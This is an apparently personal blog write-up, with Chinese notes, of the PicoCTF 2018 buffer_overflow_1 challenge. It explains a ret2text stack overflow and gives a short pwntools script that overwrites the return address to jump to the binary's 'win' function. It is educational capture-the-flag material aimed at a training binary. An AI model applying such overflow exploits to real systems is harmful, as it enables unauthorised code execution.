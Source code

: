 ```yaml
---
title: 'PicoCTF_2018_buffer_overflow_1'
date: 2024-01-03 13:00:00 +0800
categories: [ctf,pwn]
tags: [ret2text]
---
```

![image-20240103130117204](../assets/img/old_imgs/image-20240103130117204.png)

![image-20240103130158706](../assets/img/old_imgs/image-20240103130158706.png)

- `ret2text`

1. `vuln`函数中`s`变量存在溢出
2. 存在后门函数
3. 构造`payload`填充再跳转到后门函数`win`就可以得到`flag`

```python
from pwn import *
io = process('./PicoCTF_2018_buffer_overflow_1')
padding = b'A'*(0x28+0x4)
payload = padding+p32(0x080485CB)
io.sendlineafter(b'Please enter your string: \n',payload)
io.interactive()
```

